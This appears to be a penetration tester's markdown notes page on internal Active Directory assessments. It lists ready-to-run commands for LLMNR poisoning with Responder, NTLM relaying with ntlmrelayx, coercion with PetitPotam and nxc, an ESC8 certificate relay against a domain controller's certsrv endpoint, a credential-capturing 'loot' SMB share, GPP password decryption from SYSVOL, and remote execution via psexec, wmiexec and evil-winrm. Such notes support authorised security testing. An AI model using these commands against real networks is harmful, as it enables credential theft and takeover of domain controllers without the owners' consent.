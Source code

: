 ```yaml
---
layout: blank
pagetitle: Internal Assessments
---
```


## Notes on tooling
- Impacket has been a bit hit or miss with pip and packages and all
- What's worked has been installing impacket via `python3 -m pipx install impacket`
  - However, tools using `impacket` as a library (like Petitpotam) will fail, since impacket isn't installed as a pip library
  - Thus, create a virtual environment just for pip
    - `python3 -m venv pipenv`, `source pipenv/bin/activate`, and `pip install impacket`
  - Tools like petitpotam will now be able to reference the impacket library within the venv



## Poisoning/Relaying/Coercing
- Poisoning is often your best friend on internals
- Run `sudo responder -I {network_interface}` to capture auth information
  - Can try to crack NTLMv2 info or relay it onwards
- If the credentials can't be cracked, pair responder up with `ntlmrelayx`
  - `impacket-ntlmrelayx -t {protocol_like_smb}://{dc_ip} `
- Can check for available coercion methods with `nxc smb {IP} -M coerce_plus -o LISTENER={kali_IP}`
  - This is better with credentials; can check for more methods (`-u {domain}\{user}` and `-p {password}`)
- Petitpotam
  - Very powerful tool; uses `EfsRpcOpenFileRaw` to convince the DC to open a file at `\\attacker_share\share`, thus causing the DC to authenticate to us
  - We can capture the credential using impacket's `smbserver` to try and crack it, but this is pretty unlikely to work due to the randomized passwords
    - `smbserver.py loot $(pwd) -smb2support` will host a share on our IP called `loot`
    - Instead, we should relay them on with impacket's `ntlmrelayx` or `certipy`
  - ESC8 relay example:
    - Run `python PetitPotam.py {kali_IP} {vulnerable_DC_IP}` to get the server to authenticate to us
      - PetitPotam won't capture the credentials on its own, thus:
    - Use `ntlmrelayx.py -t http://{target_DC_IP}/certsrv/certfnsh.asp -smb2support --adcs --template 'KerberosAuthentication'` to relay the auth to the target
      - Can also use `--template 'DomainController'`, need to look in to when to use which

## RPC
- 

## SMB Shares
- `smbclient -L //{ip}/ -N` for anonymous, or `-U 'domain/username` for credentials
  - `recurse ON` to recursively list files
  - Check inside SYSVOL policies/{guid}/machine/preferences/groups for a group policy password
    - If found, decode with `gpp-decrypt`

## Getting execution with credentials
- Try `smbexec`, `wmiexec`, `psexec`, `xfreerdp`, and `evil-winrm` depending on the ports open

## Webservers
- Run gowitness on the IP ranges, enumerate mainly the 200s unless there's time for all
- `gowitness scan cidr --write-db --cidr {IP_range} --write-db`
  - If we have a list of IPs: `gowitness scan file  --write-db -f {file_with_ips}`
  - If we have a list of CIDRs: `gowitness scan cidr  --write-db --cidr-file {file_with_cidrs}`
- Then just view the results by running `gowitness report server` in the same directory (with `gowitness.sqlite3`)

## SCCM
- 